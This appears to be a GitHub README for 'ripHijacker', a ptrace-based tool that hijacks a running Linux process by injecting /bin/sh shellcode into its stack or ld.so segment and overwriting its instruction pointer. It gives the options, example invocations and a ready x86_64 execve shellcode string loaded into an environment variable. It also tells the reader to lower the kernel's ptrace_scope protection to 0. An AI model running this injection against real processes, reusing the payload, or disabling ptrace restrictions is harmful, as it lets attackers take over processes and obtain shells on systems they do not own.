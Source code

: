 # ripHijacker

# DESCRIPTION:

- It allows you to inject an hardcoded "/bin/sh" shellcode into the executable segment /lib/x86_64-linux-gnu/ld-2.19.so of the target process and to overwrite its $rip register with the address of that segment.
- It allows you to inject an hardcoded "/bin/sh" shellcode into the stack of the target process and to overwrite its $rip register with the address pointed by its $rsp register.                       
- It allows you to overwrite the $rip register of the target process with the address of an environment variable located in the target's stack.

## SYNOPSIS: 
```bash
$./ripHijacker [OPTIONS]
```

## OPTIONS:
```
-p <target_pid>:        pid of the target process.
-z <0|1>:               if enabled (1), it overwrites the $rip register with an address of the target's stack.
-e <env_var>:           name of the environment variable on which the $rip register will point at.
-n <target_progr_name>: name of the target.
```
(-e and -n options must be used together and only if -z is enabled)

## EXAMPLES:

```bash
 $./ripHijacker -p 6666
 ```
 
 ```bash
 $./ripHijacker -p 6666 -z 1
 ````
 
 We can load a simple /bin/sh shellcode in an environment variable with the comand:
 ```bash
 
 export A=$(python -c "print '\x90' * 20 + '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")
 ```
 
Now we can use -e and -n options:

 ```bash
 $./ripHijacker -p 6666 -z 1 -e A -n target_name
```

## NOTES:
ripHijacker uses ptrace. 
```
"A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes.."
```
So we can change scope of ptrace with these commands:
```bash
$sudo vim  /etc/sysctl.d/10-ptrace.conf
```
..and setting.. 
```bash
kernel.yama.ptrace_scope = 0
```
..after that we must load the new settings with:
```bash
$sudo sysctl --system -a -p | grep  yama
```

Obviously, to use '-z 1' option the target program must be compiled with the "-z execstack" option and to use -e and -n options the environment variable must be loaded before the program target execution.

## ACKNOWLEDGEMENT:

Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
conoscenza dell'utilità di ptrace ed anche Crossbower che mi ha dato l'idea su come effettuare l'attacco ld_inj

## Video:
<iframe width="560" height="315" src="https://www.youtube.com/embed/Pi39DfYiMFQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


